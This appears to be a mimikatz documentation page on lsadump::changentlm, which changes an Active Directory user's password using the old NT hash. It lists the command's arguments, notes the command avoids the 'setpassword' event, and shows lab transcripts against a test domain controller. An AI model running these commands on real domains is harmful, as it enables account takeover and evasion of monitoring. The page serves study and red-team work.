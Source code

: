# changentlm

`lsadump::changentlm` can be used to change the password of a user (cf. [ZeroLogon](https://www.thehacker.recipes/ad/movement/netlogon/zerologon)). It accepts either a clear-text password or an NT hash. [According to Benjamin](https://twitter.com/gentilkiwi/status/872588656967548928?s=20) this option avoids the "setpassword" event but it requires to know the previous password or NT hash. It has the following command line arguments:

* `/newpassword`: The new clear text password for the target user
* `/oldpassword` : The existing clear text password to change
* `/user`: the target user account
* `/oldntlm` or `/old` : The existing NT hash to change
* `/newntlm` or `/new` : The new NT hash for the target user
* `/server`: The domain controller FQDN

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="info" %}
A low privileged user can also utilise it to change his/her own password.
{% endhint %}

```
mimikatz # lsadump::changentlm /server:DC.hacklab.local /user:adriane.lena /old:cded5acd2c1fc0f816c63ef317937deb /newpassword:WhatEverYouWant
OLD NTLM     : cded5acd2c1fc0f816c63ef317937deb
NEW NTLM     : e0e12e5f0fba8f1efbff3a7ceea6e907

Target server: DC.hacklab.local
Target user  : adriane.lena
Domain name  : hacklab
Domain SID   : S-1-5-21-2725560159-1428537199-2260736313
User RID     : 1479

>> Change password is a success!
```

While [lsadump::setntlm](setntlm.md) seems to work multiple times for the same user account, this is not the case for `lsadump::changentlm`. According to this [issue](https://github.com/gentilkiwi/mimikatz/issues/201) on mimikatz's Github, a user cannot change his password more than one per day.

```
mimikatz # lsadump::changentlm /server:DC.hacklab.local /user:optimus /old:b09a14d2d325026f8986d4a874fbcbc7 /newpassword:WhatEverYouWant
OLD NTLM     : b09a14d2d325026f8986d4a874fbcbc7
NEW NTLM     : e0e12e5f0fba8f1efbff3a7ceea6e907

Target server: DC.hacklab.local
Target user  : optimus
Domain name  : hacklab
Domain SID   : S-1-5-21-2725560159-1428537199-2260736313
User RID     : 1732
ERROR kuhl_m_lsadump_changentlm_callback ; Bad new NTLM hash or password! (restriction)
```

